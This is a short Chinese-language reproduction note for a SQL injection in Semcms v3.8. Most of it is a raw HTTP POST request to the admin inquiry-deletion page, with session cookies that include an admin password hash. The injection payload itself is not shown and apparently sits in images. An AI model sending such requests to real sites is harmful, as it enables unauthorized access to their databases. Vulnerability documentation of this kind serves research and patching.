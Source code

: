 ```yaml
---
title: Semcms v3.8 sql注入漏洞
id: zhfly3123
---
```


# Semcms v3.8 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Semcms v3.8

## 三、复现过程

> URL: http://0-sec.org/123/sOWj5B_Admin/SEMCMS_Inquiry.php

![image](../img/24b32bfb3a0fd141513ec050add0f910.png)

*   POST

```
POST /123/sOWj5B_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
Host: 0-sec.org
Content-Length: 24
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/123/sOWj5B_Admin/SEMCMS_Inquiry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: MEIQIA_EXTRA_TRACK_ID=1F7WZdk3rwHIzKqUfkrNaZ9t1EE; _ga=GA1.1.1842664860.1547715044; UM_distinctid=169c55686280-0636c606d502d3-36664c08-1fa400-169c556862b2e4; CNZZDATA1256162028=1606185978-1553793969-%7C1553793969; CNZZDATA1707573=cnzz_eid%3D987595238-1554794879-http%253A%252F%252F127.0.0.1%252F%26ntime%3D1554913098; PHPSESSID=n75nrqp26757vguhhgd4mlptd4; __51cke__=; __tins__4329483=%7B%22sid%22%3A%201556088941568%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201556090843766%7D; __51laig__=3; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Connection: close `languageID=&AID%5B%5D=3` 
```

![image](../img/edb69747b6e71cbfca00b58e79d63879.png)